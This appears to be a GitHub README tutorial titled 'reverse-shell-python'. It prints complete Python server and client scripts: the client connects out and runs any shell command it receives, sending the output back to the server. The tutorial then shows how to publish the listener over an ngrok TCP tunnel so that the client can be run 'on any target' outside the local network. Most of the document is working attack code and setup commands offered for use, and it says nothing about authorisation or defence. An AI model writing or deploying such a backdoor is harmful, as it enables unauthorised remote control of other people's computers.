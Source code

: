 # reverse-shell-python
reverse shell with python

<img src="imgs/1.gif">

#Some basics
What is a reverse shell? With a reverse shell, the target makes the connection. On your client is run a server program, which listening for incoming connections. And the target execute a program, which connect to your client. Then you can run commands on the target from your client. My research:
- Acunetix
- PythonCode
- netsparker
# Python

We will write two small Python scripts one for the server and one for the client. The only modules we use are sockets and the subprocess. Make sure you have read the documentation. The programs are short and self-explanatory, nothing complicated just a little loop.

# Server

```
import socket

HOST = '0.0.0.0'
PORT = 5555

# set up the socket so that it waits for an incoming connection
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)
print(f'[*] listening as {HOST}:{PORT}')

# waiting for the target and sent a welcome message if it connected
client_s, client_addr = s.accept()
print(f'[*] client connected {client_addr}')
client_s.send('welcome'.encode())

# this loop will run, until you enter 'quit'
while True:

    # 1. enter the command and send it to the target
    cmd = input('>>> ')
    client_s.send(cmd.encode())

    # check if you want to quit
    if cmd.lower() == 'quit':
        break

    # get the result of the command, executed on the target pc
    result = client_s.recv(1024).decode()
    print(result)

client_s.close()
s.close()
```
#Client
```
import socket
import subprocess

HOST = '0.0.0.0'
PORT = 5555

# set up the socket and connect to the server
s = socket.socket()
s.connect((HOST, PORT))

# get the welcome message
msg = s.recv(1024).decode()
print('[*] server:', msg)

# this loop will run until it receive 'quit'
while True:

    # receive the command and print it
    cmd = s.recv(1024).decode()
    print(f'[*] receive {cmd}')

    # check if you want to quit
    if cmd.lower() == 'quit':
        break

    # now run the command and get the result.
    try:
        result = subprocess.check_output(cmd, stderr=subprocess.STDOUT, shell=True)
    except Exception as e:
        result = str(e).encode()

    # if the command has no output, send 'ok' so the server knows everything is okay
    if len(result) == 0:
        result = 'OK'.encode()

    # send teh result to the server
    s.send(result)

s.close()
```
# How to run

We only uses the Python Standard Library, so we don't have to install anything. Simple execute

```
python3 server.py
```

and

```
python3 client.py
```

<img src="imgs/2.gif">

The server run with HOST=0.0.0.0 so that it listen on all incoming connection. On some examples you read something like HOST=localhost or HOST=127.0.0.1. But then it's only listen on connection from the localhost. You shouldn't change the HOST of the server script. But if you run the client on another PC, you have to enter the IP address of the server for the HOST. You get a problem if the PC is not in your local network. Of course you can forward the port in your router and then specify your public IP as HOST. But I want to show you another way.

# ngrok

ngrok is a reverse proxy that creates a secure tunnel from a public endpoint to a locally running web service. Simply put, with ngrok you can make any local service public. And we will make our server public. Go to ngrok sign up and follow the setup tutorial for your system. For me it's

# how to use ngrok

https://youtu.be/PRw_-ZvvRL4

**`download 👇`**

```
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```

**`unzip 👇`**

```
unzip ngrok-stable-linux-amd64.zip
```

**`connect your account 👇`**

```
./ngrok authtoken 1WeW...
```

**`exposed the server 👇`**

```
./ngrok tcp 5555
```

Now you are ready to run the client on any target, but you have to change the HOST and PORT to the values from ngrok. For my example that will be

```
HOST = '4.tcp.ngrok.io'
PORT = 12050
```

<img src="imgs/3.png">

# Conclusion

As you can see, it's not that complicated to create your own reverse shell and make it public. I know, there's a lot of space to improve this script. But for a really Simple example they are quite good enough.

# how to use script

https://youtu.be/kFp_yG3r23c
